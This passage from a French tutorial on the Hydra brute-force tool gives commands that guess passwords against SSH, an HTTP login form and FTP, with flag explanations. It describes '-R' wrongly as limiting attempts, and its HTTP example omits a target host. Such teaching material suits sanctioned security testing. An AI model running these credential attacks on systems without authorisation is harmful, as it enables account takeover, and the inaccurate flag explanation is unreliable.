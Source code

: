 #### 4. Tester des combinaisons spécifiques

*   **Commande** :

    ```bash
    hydra -l admin -p password123 ssh://192.168.1.10
    ```
* **Explication** :
  * `-p` : Définit un mot de passe spécifique (`password123`) à tester.

***

#### 5. Limiter le nombre de tentatives

*   **Commande** :

    ```bash
    hydra -l admin -P /path/to/passwords.txt -R ssh://192.168.1.10
    ```
* **Explication** :
  * `-R` : Reprend une session interrompue et limite les tentatives.

***

### 📋 Étape 4 : Exemples Pratiques

***

#### 1. Attaque sur un formulaire HTTP

*   **Commande** :

    ```bash
    hydra -l admin -P /path/to/passwords.txt http-post-form "/login:username=^USER^&password=^PASS^:F=Incorrect"
    ```
* **Explication** :
  * `http-post-form` : Utilise une requête POST pour tester les authentifications.
  * `/login` : Chemin de la page de connexion.
  * `username=^USER^&password=^PASS^` : Spécifie les champs de formulaire pour le nom d'utilisateur et le mot de passe.
  * `F=Incorrect` : Identifie une tentative échouée en cherchant le mot `Incorrect` dans la réponse.

***

#### 2. Tester un service FTP avec des utilisateurs multiples

*   **Commande** :

    ```bash
    hydra -L /path/to/users.txt -P /path/to/passwords.txt ftp://192.168.1.10
    ```
* **Explication** :
  * Cible toutes les combinaisons possibles d’utilisateurs et mots de passe pour un serveur FTP.
